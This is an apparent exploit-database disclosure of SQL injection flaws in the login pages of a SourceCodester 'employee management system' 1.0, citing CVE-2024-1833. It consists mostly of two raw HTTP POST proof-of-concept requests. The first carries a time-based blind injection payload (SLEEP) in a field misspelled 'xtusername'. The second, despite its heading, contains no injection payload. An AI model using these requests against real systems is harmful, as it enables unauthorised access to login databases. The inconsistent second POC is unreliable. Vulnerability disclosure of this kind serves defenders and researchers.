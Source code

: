 ### Exploit Title: employee management system - Multiple SQL injections
### Date: 2024-02/23
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/16999/employee-management-system.html
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./Admin/login.php 
/Admin/login.php  SQL injection exists at the login port

### Sample request POC #1

```
POST /Admin/login.php HTTP/1.1
Host: localhost:8889
Content-Length: 46
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8889
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8889/Admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=0sk1vejv5ipjkga2afjt5vqi59
Connection: close

xtusername=admin' AND (SELECT 2131 FROM (SELECT(SLEEP(5)))tfPL) AND 'wOKG'='wOKG&txtpassword=123456&btnlogin=
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708679834535.jpg "employee management system")


# 2./Account/login.php (CVE-2024-1833)
/Account/login.php SQL injection exists for parameter txtemail

### Sample request POC #2

```
POST /Account/login.php HTTP/1.1
Host: localhost:8889
Content-Length: 45
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8889
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8889/Account/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=0sk1vejv5ipjkga2afjt5vqi59
Connection: close

txtemail=1%40qq.com&txtpassword=123&btnlogin=
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708679982330.jpg "employee management system")


